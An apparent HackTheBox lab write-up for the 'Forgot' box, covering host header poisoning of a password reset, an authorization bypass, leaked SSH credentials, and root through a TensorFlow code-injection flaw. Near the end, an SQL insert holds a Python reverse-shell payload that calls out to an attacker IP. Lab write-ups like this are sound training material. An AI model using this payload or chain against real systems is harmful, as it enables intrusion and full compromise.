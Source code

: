 ```yaml
---
title: Forgot
author:
  name: eng4ge
  link: https://github.com/an9k0r
date: 2023-03-03 09:33:00 +0100
categories: [HackTheBox, Linux]
tags: [Web, Vulnerability Assessment, Injection, Source Code Analysis, Outdated Software, Flask, Werkzeug, Authentication bypass, Clear Text Credentials, Host Header Injection, Code Injection]
math: true
mermaid: true
image:
  src: /assets/images/9affd781c0cee054aa18bf5112e0027c6ab7757ce98b6efe6b14c19d8956ee9f.png
  width: 694
  height: 515
  alt: image alternative text
---
```

**Forgot is an intermediate box which start with few basic web application misconfigurations. Box runs vulnerable tensorflow python package in a script which is run as sudo/root**

# Enumeration
## NMAP
```
Nmap scan report for 10.129.249.130
Host is up (0.042s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp open  http
|_http-title: Login
```
## Website

### Finding username in the source code
If we check th source then we'd find a user `robert-dev-14320`. 

![picture 14](/assets/images/79659cc4a185aaf5526b701463401fd475c875fcf73698bdae98068f0d236c83.png)  

We cannot guess the password or brute-force it as caching and responses make the wait completely unbearable, but there is `forgot` password present so let's check that.

# Initial Foothold - digging deeper
## Host Header Poisoning on forgot password

It appears that we can poison host header which makes the webserver to issue an request (HTTP!) to our own server

![picture 15](/assets/images/82198bf3a26e5838a955a363a355331680be92fa598318bf4e57e658c3cdffcc.png)  

We can set a new password for `robert-dev-14320` and access the Support Portal. Be patient and make sure you URL encode your token!

![picture 16](/assets/images/17fcf5c3a88d4b510e242f18dc6049cdb56714033778665cda9334b43baa892b.png)  

## Getting onto Admin Panel

We can find admin's dashboards if we check the site map. 

![picture 18](/assets/images/1ae220da951d31f9a19f8e6011dd1ac3b0c2e82de926e6b0c4c65e2f6a85b5bc.png)  

If we however try to access it with `robert-dev-14320` we'd be redirected to denied page.

![picture 17](/assets/images/b88273c950304b03006e265179a2275fa2cfdcceede46a623a4bc3ec1d1f3a92.png)  

Good thing is that we can tamper the authorization header without having the right password as apparently only user will be checked.

![picture 19](/assets/images/0587aa7a80b40bdfb5ee3b6ca4f2e84571efd8c816a37a3ce26b217a3ff35479.png)  

## Finding Diego's credentials

If we check the response in Burp of the request above to `admin_tickets` we'd find diego's password.

![picture 20](/assets/images/d9db1711bfe1510fc7361d55e82fd9264f6d61da0625e6fbb5402b7c82df352b.png)  

Credentials work with SSH `diego:dCb#1!x0%gjq`.

![picture 21](/assets/images/f290ba645ac54fc410bb4cdacc4bd0b6a46e3b854207297a3e3ca8bae5533f5c.png)  

# Privilege Escalation

We can run script as sudo

```
diego@forgot:~$ sudo -l
Matching Defaults entries for diego on forgot:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User diego may run the following commands on forgot:
    (ALL) NOPASSWD: /opt/security/ml_security.py
```

## Tensorflow Vulnerability

If we check the `/opt/security/ml_security.py` we'll find the tensorflow import.

```python
#!/usr/bin/python3
import sys
import csv
...
from urllib.parse import unquote
from sklearn import model_selection
from nltk.tokenize import word_tokenize
from sklearn.linear_model import LogisticRegression
from gensim.models.doc2vec import Doc2Vec, TaggedDocument
from tensorflow.python.tools.saved_model_cli import preprocess_input_exprs_arg_string
...
```

We can check `tensorflow`'s version:

```
diego@forgot:~$ pip3 show tensorflow | grep Version
Version: 2.6.3
```

This version of Tensorflows is vulnerable to Remote Code Execution.  References:

- https://security.snyk.io/vuln/SNYK-PYTHON-TENSORFLOW-2841408
- https://github.com/advisories/GHSA-75c9-jrh4-79mc

![picture 22](/assets/images/382cfd1bd771229b94241a362d97a1a7e89ec25ffa8c8c6a4045f087bfd68f10.png)  

Script `/opt/security/ml_security.py` loads input from `escalate` table.

![picture 24](/assets/images/5579be613ad59792613078d48ae060aa66324dcf2557bc12c23a6dc61f620ddd.png)  

`reason` column in `escalate` table (`app` database) resides on 4th position. 

```
diego@forgot:~$ mysql -u diego -p'dCb#1!x0%gjq' -D app -e "show columns from escalate;"
mysql: [Warning] Using a password on the command line interface can be insecure.
+--------+------+------+-----+---------+-------+
| Field  | Type | Null | Key | Default | Extra |
+--------+------+------+-----+---------+-------+
| user   | text | YES  |     | NULL    |       |
| issue  | text | YES  |     | NULL    |       |
| link   | text | YES  |     | NULL    |       |
| reason | text | YES  |     | NULL    |       |
+--------+------+------+-----+---------+-------+
```

The vulnerability is pretty trivial to exploit if we check the PoC: https://github.com/advisories/GHSA-75c9-jrh4-79mc

We just have to keep in mind that we need to inject our payload into reason column:

```sql
insert into escalate values ("user","issue","link",'hello=exec("""\nimport socket\nimport subprocess\ns=socket.socket(socket.AF_INET,socket.SOCK_STREAM)\ns.connect(("10.10.14.52",5555))\nsubprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())""")');
```

Run `sudo /opt/security/ml_security.py` and shell should pop as root. (For the payload above, listener has to be started beforehand on the attackers machine!)

![picture 23](/assets/images/0dc38029c16caa637ea0bc7188eaa4892666e5e8d23f9966c8bd9e4f5faa069f.png)  
